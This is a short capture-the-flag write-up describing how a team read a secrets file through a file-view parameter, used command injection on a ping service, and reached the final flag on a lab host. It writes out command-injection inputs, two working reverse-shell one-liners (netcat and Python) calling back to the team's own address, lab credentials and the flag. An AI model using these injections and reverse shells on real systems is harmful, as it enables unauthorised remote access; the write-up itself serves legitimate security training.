# 03
In the second flag, there is a hint to check secrets.txt. So we try this, by doing a request to `submarine-api` with `/view?file=secrets.txt` which contains credentials for the ssh server at `submarine-sonar`. 

> We did actually already find these by running `''; ps aux` and looking at the commands other teams had run since it was a single instance for all teams.

We were able to setup a reverse shell since the webserver hosting ping had netcat installed. We used this command for the reverse shell: `''; nc <OUR IP> 8080 -e /bin/sh `, but found it was more stable with python using: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<OUR IP>",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`. Then the receive could run `nc -lnvp 8080`. 

Through the reverse shell we could log onto `submarine-sonar` with the user `admiral` and the password `deep_sea_explorer_2024`. Once we are connected to `submarine-sonar` we do a search to see if we can find any files called any containing  `flag.txt` and we find `/mnt/1/final_flag.txt`.

Running `cat` on that reveals the final flag: `HF-xzBiWnucofINWHlnWfGmoOQfqqFxeKbF`